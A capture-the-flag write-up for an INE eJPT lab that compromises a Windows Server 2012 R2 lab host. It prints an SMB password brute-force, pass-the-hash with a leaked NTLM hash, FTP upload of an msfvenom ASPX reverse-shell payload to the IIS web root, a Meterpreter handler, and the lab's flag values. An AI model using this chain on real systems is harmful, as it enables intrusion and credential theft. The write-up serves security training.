









# Host & Network Penetration Testing: Exploitation CTF 2

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — Exploitation  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-18  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this challenge is to systematically assess and compromise a Windows Server 2012 R2 target (`target.ine.local` at `10.5.29.82`). The attack progression requires pivoting across multiple services: brute-forcing an SMB user account, utilizing Pass-the-Hash (PtH) techniques with dumped NTLM hashes to access restricted network shares, recovering FTP credentials from a stored administrative hint, and finally uploading an ASPX reverse shell via FTP to the IIS web root to obtain remote command execution and retrieve the root system flag.

- **Flag 1:** Perform an SMB brute-force attack against local user `tom` using Metasploit, authenticate to the `HRDocuments` share, and extract `flag1.txt` alongside `leaked-hashes.txt`.
- **Flag 2:** Analyze the dumped NTLM hash list, authenticate as user `nancy` via Pass-the-Hash using `smbclient`, and retrieve `flag2.txt` and `hint.txt` from the restricted `ITResources` share.
- **Flag 3:** Inspect `hint.txt` to uncover credentials for user `david` (`david:omnitrix_9901`), log into the Microsoft FTP service, and retrieve `flag3.txt` directly from the IIS web root directory.
- **Flag 4:** Leverage FTP write access in the web root by uploading a malicious 64-bit ASPX Meterpreter payload generated with `msfvenom`, trigger the shell via HTTP, and read `C:\flag4.txt` from the resulting shell.



---

## 🛠️ Tools Used

- **Nmap (`7.94SVN`)** — Comprehensive TCP port discovery, service version detection, and OS fingerprinting
- **Metasploit Framework (`msfconsole v6.4.12-dev`)** — 
  - `auxiliary/scanner/smb/smb_login` (SMB credential brute-forcing and NTLM hash validation)
  - `auxiliary/scanner/smb/smb_enumshares` (SMB share enumeration)
  - `exploit/multi/handler` (Multi-handler for receiving the reverse Meterpreter connection)
- **smbclient** — Interactive SMB client for share browsing and Pass-the-Hash (`--pw-nt-hash`)
- **SMBMap (`v1.10.2`)** — Samba share permission enumerator
- **Microsoft FTP Client (`ftp`)** — Interactive FTP file transfer and web root inspection
- **MSFvenom** — Generation of the Windows x64 ASPX reverse TCP payload (`payloadx64.aspx`)
- **Meterpreter (`windows/x64/meterpreter/reverse_tcp`)** — Post-exploitation shell and command interpreter
- **Linux Core Utilities** — `cat`, `ip`, `dirb`

---

## 🌐 Target Information

| Hostname | IP Address | Operating System | Open Ports & Services | Vulnerability / Attack Vector |
|---|---|---|---|---|
| **target.ine.local** | `10.5.29.82` | Windows Server 2012 R2 (Build 9600) | `21/tcp` (Microsoft ftpd), `80/tcp` (Microsoft IIS 8.5), `135/tcp` (MSRPC), `139/tcp` (NetBIOS), `445/tcp` (SMB3), `3389/tcp` (RDP), `49152-49192/tcp` (MSRPC) | Weak SMB password (`tom:felipe`), SMB Pass-the-Hash (`nancy`), Credential reuse via hint (`david`), Arbitrary ASPX upload to IIS web root |

**Attacker IP:** `10.10.44.11` (interface `eth1`)

---

## 🔍 1. Service Enumeration & Reconnaissance

We perform an all-port Nmap TCP SYN scan with service version and OS detection against `target.ine.local`:

```bash
nmap -sV -sC -p- target.ine.local -O
```

**Nmap Scan Output:**
```
Nmap scan report for target.ine.local (10.5.29.82)
Host is up (0.0029s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: WIN-M878Q9NE9S6
|   Product_Version: 6.3.9600
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49171/tcp open  msrpc              Microsoft Windows RPC
49192/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
```

The scan reveals a Windows Server environment running **FTP (port 21)**, **IIS 8.5 (port 80)**, **SMB (port 445)**, and **RDP (port 3389)**.

---

## 🔑 2. Flag 1: SMB Brute-Force & `HRDocuments` Share Access

### Step 2.1: SMB Password Brute-Force (`tom`)
The lab description indicates: *"Looks like smb user tom has not changed his password from a very long time."*  
We configure Metasploit's `auxiliary/scanner/smb/smb_login` module targeting user `tom` with `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`:

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER tom
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.5.29.82
msf6 auxiliary(scanner/smb/smb_login) > run
```

**Output:**
```
[+] 10.5.29.82:445        - 10.5.29.82:445 - Success: '.\tom:felipe'
[*] 10.5.29.82:445        - Scanned 1 of 1 hosts (100% complete)
[*] 10.5.29.82:445        - Bruteforce completed, 1 credential was successful.
```

The valid password for user `tom` is **`felipe`**.

### Step 2.2: Enumerating Shares
We list the accessible SMB shares using `smbclient`:

```bash
smbclient -L //10.5.29.82 -U tom
```

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        D$              Disk      Default share
        HRDocuments     Disk      
        IPC$            IPC       Remote IPC
        ITResources     Disk      
        print$          Disk      Printer Drivers
```



### Step 2.3: Accessing `HRDocuments` and Retrieving Flag 1
We connect to the non-standard `HRDocuments` share with `tom`'s credentials:

```bash
smbclient //10.5.29.82/HRDocuments -U tom
```

Inside the share, we find `flag1.txt` and `leaked-hashes.txt`. We download both files:

```bash
smb: \> ls
  flag1.txt                           A       34  Wed Nov 18 12:59:13 2026
  leaked-hashes.txt                   A     6665  Fri Jun 14 11:35:55 2024
smb: \> get flag1.txt
smb: \> get leaked-hashes.txt
smb: \> exit
```



Viewing `flag1.txt`:

```bash
cat flag1.txt
8365ca4ce11447d4a01307063d6e47ce
```



✅ **Flag 1 Captured:** `8365ca4ce11447d4a01307063d6e47ce`

---

## 🛡️ 3. Flag 2: Pass-the-Hash for User `nancy` & `ITResources`

### Step 3.1: Examining Leaked Hashes
We inspect the extracted `leaked-hashes.txt` file containing LM:NT hash pairs:

```bash
cat leaked-hashes.txt
```

Each line contains standard NTLM format hashes (`aad3b435b51404eeaad3b435b51404ee:<NT_HASH>`). The lab objective asks: *"Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?"*

### Step 3.2: Validating `nancy`'s Hash via Metasploit
We test the hashes against user `nancy` using Metasploit's `smb_login` module. The valid NT hash for `nancy` is identified as:
`b3ddea4b4b957f3e037af75cfe5317ad`

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.5.29.82
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER nancy
msf6 auxiliary(scanner/smb/smb_login) > set SMBPASS aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad
msf6 auxiliary(scanner/smb/smb_login) > run
```

```
[+] 10.5.29.82:445        - 10.5.29.82:445 - Success: '.\nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad'
```

We verify share permissions with `smbmap`:

```bash
smbmap -H 10.5.29.82 -u 'nancy' -p 'aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad'
```

`ITResources` is listed with **`READ ONLY`** permissions for `nancy`.

### Step 3.3: Connecting via Pass-the-Hash & Capturing Flag 2
We use `smbclient` with the `--pw-nt-hash` parameter to authenticate without cracking the plaintext password:

```bash
smbclient //10.5.29.82/ITResources -U 'nancy%b3ddea4b4b957f3e037af75cfe5317ad' --pw-nt-hash
```

We list the share contents and download `flag2.txt` and `hint.txt`:

```bash
smb: \> ls
  flag2.txt                           A       34  Wed Nov 18 12:59:13 2026
  hint.txt                            A       71  Thu Jun 13 16:00:47 2024
smb: \> get flag2.txt
smb: \> get hint.txt
smb: \> exit
```

We display `flag2.txt`:

```bash
cat flag2.txt
930488280b7b40ada56211e849c9f86f
```



✅ **Flag 2 Captured:** `930488280b7b40ada56211e849c9f86f`

---

## 💡 4. Flag 3: Credential Hint & FTP File Retrieval

### Step 4.1: Inspecting the Discovered Hint
We read `hint.txt` retrieved from the `ITResources` share:

```bash
cat hint.txt
```

**Output:**
```
Who knows, these creds might come handy! ---> david:omnitrix_9901
```



### Step 4.2: Logging in via FTP & Capturing Flag 3
From our initial Nmap scan, port **21/tcp** is running Microsoft FTP Service. We connect to the target using `david`'s credentials:

```bash
ftp 10.5.29.82
Name: david
Password: omnitrix_9901
```

```
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49369|)
125 Data connection already open; Transfer starting.
06-13-24  10:36AM       <DIR>          aspnet_client
11-18-26  07:29AM                   34 flag3.txt
06-13-24  10:34AM                99710 iis-85.png
06-13-24  10:34AM                  701 iisstart.htm
226 Transfer complete.
```

The FTP root directly maps to the IIS web server's root (`C:\inetpub\wwwroot`). We download `flag3.txt`:

```bash
ftp> get flag3.txt
ftp> bye
```

Reading `flag3.txt`:

```bash
cat flag3.txt
319a9bb2a79a4be9897f8fadcd787541
```



✅ **Flag 3 Captured:** `319a9bb2a79a4be9897f8fadcd787541`

---

## 💻 5. Flag 4: ASPX Web Shell Upload & Remote Code Execution

### Step 5.1: Payload Generation with MSFvenom
Because `david`'s FTP access maps to the active IIS web root directory, uploading an executable `.aspx` web application file allows us to execute arbitrary commands under the IIS application pool identity (`IIS APPPOOL\DefaultAppPool`).

We determine our attacker IP (`10.10.44.11` on `eth1`) using `ip -br addr` and generate a 64-bit Windows Meterpreter reverse shell:

```bash
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.44.11 LPORT=1234 -f aspx > payloadx64.aspx
```

### Step 5.2: Uploading the Web Shell via FTP
We re-connect to the FTP server and upload `payloadx64.aspx`:

```bash
ftp 10.5.29.82
Name: david
Password: omnitrix_9901

ftp> put payloadx64.aspx
local: payloadx64.aspx remote: payloadx64.aspx
229 Entering Extended Passive Mode (|||49422|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************************************************************************************|  3695       49.63 MiB/s    --:-- ETA
226 Transfer complete.
ftp> bye
```

### Step 5.3: Setting Up Listener & Catching the Shell
We start a handler in Metasploit matching the payload settings:

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.44.11
msf6 exploit(multi/handler) > set LPORT 1234
msf6 exploit(multi/handler) > run
```

We trigger the payload by requesting `http://10.5.29.82/payloadx64.aspx` via browser or HTTP request.

The listener catches the reverse TCP connection:
```
[*] Started reverse TCP handler on 10.10.44.11:1234 
[*] Sending stage (201798 bytes) to 10.5.29.82
[*] Meterpreter session 1 opened (10.10.44.11:1234 -> 10.5.29.82:49427) at 2026-11-18 13:30:57 +0530
```

### Step 5.4: Retrieving Flag 4 from `C:\`
From our Meterpreter session, we drop into a standard Windows command shell:

```bash
meterpreter > shell
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> cd /d C:\
C:\> dir
```

```
 Directory of C:\

11/18/2026  07:29 AM                34 flag4.txt
06/13/2024  10:35 AM    <DIR>          inetpub
08/22/2013  03:52 PM    <DIR>          PerfLogs
08/12/2020  04:13 AM    <DIR>          Program Files
11/15/2022  06:51 AM    <DIR>          Program Files (x86)
06/13/2024  08:41 AM    <DIR>          Shares
01/09/2025  05:36 AM    <DIR>          Users
01/09/2025  05:30 AM    <DIR>          Windows
               1 File(s)             34 bytes
```

We view `flag4.txt`:

```cmd
C:\> type flag4.txt
975f95db8f5b4f28bf6059fd14b3c6ed
```





✅ **Flag 4 Captured:** `975f95db8f5b4f28bf6059fd14b3c6ed`

---

## 🏁 5. Flags Summary

| Flag # | Objective Description | Target / Service | Exploitation Method | Flag Token / Value |
|---|---|---|---|---|
| **Flag 1** | Brute-force `tom`'s password and retrieve flag from `HRDocuments` | `10.5.29.82:445` (SMB) | Metasploit `smb_login` (`tom:felipe`) + `smbclient` download | `8365ca4ce11447d4a01307063d6e47ce` |
| **Flag 2** | Use leaked NTLM hash to authenticate as `nancy` on `ITResources` | `10.5.29.82:445` (SMB) | Pass-the-Hash (`--pw-nt-hash`) with hash `b3ddea4b4b957f3e037af75cfe5317ad` | `930488280b7b40ada56211e849c9f86f` |
| **Flag 3** | Utilize hint to access FTP and retrieve `flag3.txt` | `10.5.29.82:21` (FTP) | Credential reuse from `hint.txt` (`david:omnitrix_9901`) | `319a9bb2a79a4be9897f8fadcd787541` |
| **Flag 4** | Compromise the machine and retrieve `C:\flag4.txt` | `10.5.29.82:80` (IIS) | FTP ASPX web shell upload (`payloadx64.aspx`) + Meterpreter reverse TCP | `975f95db8f5b4f28bf6059fd14b3c6ed` |

---

## 🧠 Key Learnings & Takeaways

1. **SMB Password Complexity & Lockouts:** Common passwords on administrative/domain accounts (like `tom:felipe`) can be quickly identified using standard wordlists when account lockout thresholds are not enforced.
2. **Pass-the-Hash (PtH) Risks:** Windows authentication via NTLM allows attackers possessing an NT hash to authenticate across network services without ever cracking the plaintext password. SMB clients natively support passing raw NT hashes (`--pw-nt-hash`).
3. **Information Disclosure in Shared Storage:** Storing unencrypted hash dumps (`leaked-hashes.txt`) or cleartext credential hints (`hint.txt`) in accessible network shares provides attackers with effortless lateral privilege escalation.
4. **Dangerous Service Mapping (FTP to Web Root):** Allowing FTP users write access to an active web server root (`C:\inetpub\wwwroot`) is a critical misconfiguration. Any authenticated user can upload executable code (`.aspx`, `.asp`) to achieve immediate Remote Code Execution.
